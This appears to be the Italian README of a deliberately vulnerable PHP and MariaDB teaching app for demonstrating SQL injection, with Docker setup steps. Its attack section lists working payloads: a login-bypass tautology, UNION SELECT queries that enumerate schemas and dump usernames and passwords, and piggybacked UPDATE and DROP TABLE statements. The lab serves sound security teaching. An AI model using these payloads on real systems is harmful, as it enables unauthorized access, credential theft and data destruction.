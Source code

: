 # SQL Injection Demo App (PHP + MariaDB + Docker)

Questa applicazione è stata creata per scopi didattici e dimostra le vulnerabilità SQL Injection più comuni in un contesto web.

---

## Funzionalità

- Login vulnerabile (tautologia)
- Dashboard con elenco parziale dei dati degli utenti
- Form di ricerca email vulnerabile a:
  - UNION SELECT
  - Esfiltrazione dati da `information_schema`
  - Piggybacking (`DROP`, `UPDATE`)
- Style CSS semplice incluso

---

## Tecnologie

- PHP (senza framework)
- MariaDB 10.5
- Docker & Docker Compose

---

## Avvio dell'applicazione

1. Clona il progetto

```bash
git clone https://github.com/BlackCodeReaper/sqli-project.git
cd sqli-project
```

2. Avvia i container

```bash
docker-compose up --build
```

L'app sarà disponibile su `http://localhost:8080/login.html`

---

## Login di esempio

Tautologia:
```
Username: ' OR 1=1 #
Password: qualsiasi
```

Credenziali reali:
```
Username: admin
Password: admin123
```

---

## Esecuzione di attacchi SQLi

Tautologia:
```
' OR 1=1 #
```

Scoprire nome database:
```
' UNION SELECT 1, DATABASE(), 'x' #
```

Elencare tutti gli schemi:
```
' UNION SELECT 1, schema_name, 'x' FROM information_schema.schemata #
```

Elencare tabelle:
```
' UNION SELECT 1, table_name, 'x' FROM information_schema.tables WHERE table_schema='sqli_demo' #
```

Elencare colonne:
```
' UNION SELECT 1, column_name, 'x' FROM information_schema.columns WHERE table_name='utenti' AND table_schema='sqli_demo' #
```

Leggere credenziali:
```
' UNION SELECT id, username, password FROM utenti #
```

Aggiornare un utente:
```
' ; UPDATE utenti SET ruolo = 'admin' WHERE username = 'user1'; --
```

Cancellare la tabella:
```
' ; DROP TABLE utenti; --
```

---

## Ripristino del database

Se la tabella o il database vengono eliminati durante i test, puoi ricostruire tutto con:

```bash
docker-compose down -v
docker-compose up --build
```

---

## Crediti

Progetto sviluppato per scopi didattici. **Non usare in ambienti di produzione.**